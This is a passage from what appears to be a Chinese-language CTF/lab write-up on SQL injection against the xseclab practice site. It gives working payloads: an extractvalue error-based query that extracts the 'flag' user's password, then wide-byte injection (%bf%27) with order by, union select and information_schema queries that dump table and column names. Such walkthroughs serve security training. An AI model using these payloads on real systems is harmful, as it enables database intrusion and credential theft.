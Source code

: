 查username为flag的password
```php
start=1 procedure analyse(extractvalue(rand(),concat(0x3a,(select password from user where username=0x666c6167))),1)%23 &num=1 %23
```

<br />

# 五. 邂逅

> firefox浏览器出了问题, 我还以为是burpsuite除了问题. 卸了重装就好. 

注入点在图片中.


## (1) 宽字节注入确认
用burp:
```
http://lab1.xseclab.com/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1%df%27.jpg
```

得到报错:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '.jpg'' at line 1<br />
<b>Warning</b>:  mysql_fetch_row() expects parameter 1 to be resource, boolean given in <b>sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/myimages1.php</b> on line <b>18</b><br />
```
说明图片这个位置存在宽字节注入.

## (2) 注入
### 得到字段长度
分别尝试`order by 1,2,3,4,5`到5的时候报错, 说明字段长度为4 
```
%bf%27 order by 4 %23
```

### 得到显示位
```
%bf%27 union select 1,2,3,4 %23
```
显示位为3

### 得到所有表的信息
```
%bf%27 union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database()),4 %23
```
有`article`,`pic`表.

### 得到表的字段信息
```
%bf%27 union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name=0x61727469636c65),4 %23
```
`pic`表中的字段有`id,title,content,others `
